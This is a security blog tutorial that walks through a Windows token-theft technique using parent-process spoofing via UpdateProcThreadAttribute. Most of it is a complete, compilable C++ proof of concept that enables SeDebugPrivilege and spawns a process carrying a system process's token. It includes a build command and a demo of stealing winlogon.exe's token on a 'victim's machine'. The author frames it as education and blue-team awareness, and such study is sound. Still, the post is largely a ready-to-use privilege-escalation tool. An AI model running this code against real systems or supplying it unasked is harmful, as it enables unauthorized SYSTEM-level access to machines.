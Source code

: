 ```yaml
---
title:  "APT techniques: Token theft via UpdateProcThreadAttribute. Simple C++ example."
date:   2022-10-28 03:00:00 +0300
header:
  teaser: "/assets/images/77/2022-10-29_03-59.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![token](/assets/images/77/2022-10-29_03-59.png){:class="img-responsive"}    

This post is the result of my own research into one of the more interesting APT techniques: token theft via UpdateProcThreadAttribute.     

In the previous [post](/tutorial/2022/09/25/token-theft-1.html) I wrote about classic token theft via `DuplicateTokenEx` and `CreateProcessWithTokenW`. Today I will describe an alternative method that works starting from Windows Vista.     

### UpdateProcThreadAttribute

In the first part of my tutorial, we just doing classic trick: enable `SE_DEBUG_PRIVILEGE`, open a token from any system process (which works even for protected processes also), duplicate the token, adjust privileges on it, and then impersonate with this token.     

Today we can use more simply trick. Microsoft implemented in Vista the ability to designate an explicit parent process when creating a new process, allowing the elevated process to remain a child of the caller.

Typically, in the UAC instance, you must issue an explicit token to the new process. If you do not supply a token, the new process will inherit from the designated parent. The only condition is that the handle to the parent process must have the `PROCESS_CREATE_PROCESS` access privilege.     

So, we just open some system process with `PROCESS_CREATE_PROCESS` access right. Then use this handle with `UpdateProcThreadAttribute`. In consequence, your process inherits a token from the system process.     

```cpp
BOOL UpdateProcThreadAttribute(
  LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
  DWORD                        dwFlags,
  DWORD_PTR                    Attribute,
  PVOID                        lpValue,
  SIZE_T                       cbSize,
  PVOID                        lpPreviousValue,
  PSIZE_T                      lpReturnSize
);
```

And all you need for working this is `SE_DEBUG_PRIVILEGE`.    

### technique. practical example

First of all, sometimes you must turn on `SeDebugPrivilege` in your current set of privileges:     

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}
```

Then, open a process whose access token you wish to steal with `PROCESS_CREATE_PROCESS` access rights:    

```cpp
HANDLE ph = OpenProcess(PROCESS_CREATE_PROCESS, false, pid);
```

After that, use it is handle with `UpdateProcThreadAttribute`:    

```cpp
ZeroMemory(&si, sizeof(STARTUPINFOEXW));
ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
InitializeProcThreadAttributeList(NULL, 1, 0, &size);
si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(
  GetProcessHeap(),
  0,
  size
);
InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
si.StartupInfo.cb = sizeof(STARTUPINFOEXW);
```

Finally, create process:     

```cpp
res = CreateProcessW(app, NULL, NULL, NULL, true, EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, (LPSTARTUPINFOW)&si, &pi);
printf(res ? "successfully create process :)\n" : "failed to create process :(\n");
```

So, the full source code of this logic is look like this:       

```cpp
/*
hack.cpp
token theft via
UpdateProcThreadAttribute
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/28/token-theft-2.html
*/
#include <windows.h>
#include <stdio.h>
#include <iostream>

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}

// create process
BOOL createProcess(DWORD pid, LPCWSTR app) {
  STARTUPINFOEXW si;
  PROCESS_INFORMATION pi;
  SIZE_T size;
  BOOL res = TRUE;
  HANDLE ph = OpenProcess(PROCESS_CREATE_PROCESS, false, pid);
  printf(ph ? "successfully open process :)\n" : "failed to open process :(\n");

  ZeroMemory(&si, sizeof(STARTUPINFOEXW));
  ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  InitializeProcThreadAttributeList(NULL, 1, 0, &size);
  si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, size);
  InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
  UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
  si.StartupInfo.cb = sizeof(STARTUPINFOEXW);

  res = CreateProcessW(app, NULL, NULL, NULL, true, EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, (LPSTARTUPINFOW)&si, &pi);
  printf(res ? "successfully create process :)\n" : "failed to create process :(\n");
  return res;
}

int main(int argc, char** argv) {
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  DWORD pid = atoi(argv[1]);
  if (!createProcess(pid, L"C:\\Windows\\System32\\mspaint.exe")) return -1;
  return 0;
}
```

As you can see, the code is slightly different from the previous part. This code is just dirty PoC, for simplicity, I run `mspaint.exe`.      

### demo

Let's go to see everything in action. Compile our PoC:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![token](/assets/images/77/2022-10-29_03-48.png){:class="img-responsive"}    

Then, run it at the victim's machine:    

```powershell
.\hack.exe <PID>
```

![token](/assets/images/77/2022-10-29_03-56.png){:class="img-responsive"}    

As an example, you may steal the `winlogon.exe (PID: 544)` access token:     

![token](/assets/images/77/2022-10-29_03-57.png){:class="img-responsive"}    

![token](/assets/images/77/2022-10-29_03-58.png){:class="img-responsive"}    

![token](/assets/images/77/2022-10-29_03-59_1.png){:class="img-responsive"}    

As you can see, everything is worked perfectly!     

I hope this post least a little useful for entry level cyber security specialists (and possibly even professionals), also spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.     

[Local Security Authority](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication)       
[Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)     
[LookupPrivilegeValue](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-lookupprivilegevaluea)    
[AdjustTokenPrivileges](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-adjusttokenprivileges)     
[UpdateProcThreadAttribute](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute)    
[CreateProcessW](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw)       
[APT techniques: Token theft. Part 1](/tutorial/2022/09/25/token-theft-1.html)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-10-28-token-theft-2)        

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
